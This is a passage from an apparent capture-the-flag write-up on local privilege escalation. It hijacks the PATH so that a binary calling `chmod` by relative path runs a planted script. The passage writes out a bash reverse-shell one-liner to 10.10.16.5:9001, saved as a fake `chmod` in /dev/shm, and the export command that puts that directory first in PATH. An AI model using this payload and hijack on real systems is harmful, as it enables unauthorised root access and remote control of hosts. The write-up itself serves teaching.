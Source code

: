 ![md5sum-me](./img/md5sum-me.png)

Running `strings` on the binary, we get a bunch of output. But we can see one entry in particular that is running `chmod`.
The problem is that `chmod` is not being run with it's full path which is `/usr/bin/chmod`. It's running `chmod` with a relative path, so we can create our own dummy `chmod` file and manipulate the `PATH` environment variable to run our dummy `chmod` script instead of `/usr/bin/chmod`

![doc-sec-strings](./img/doc-sec-strings.png)

So on the victim box, let's navigate to a more isolated directory ( I like `/dev/shm`) and create a file called `chmod` with a reverse shell payload and mark it as executable.

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.5/9001 0>&1'" > chmod && /usr/bin/chmod +x chmod
```

Then, let's manipulate the `PATH` environment variable to put our current direcotry into the `PATH` variable. Make sure that we put our current directory **first** in the `PATH` variable. That's because the program will search for `chmod` from the `PATH` variable and use whichever one it found first.


```bash
export PATH=/dev/shm:$PATH
```
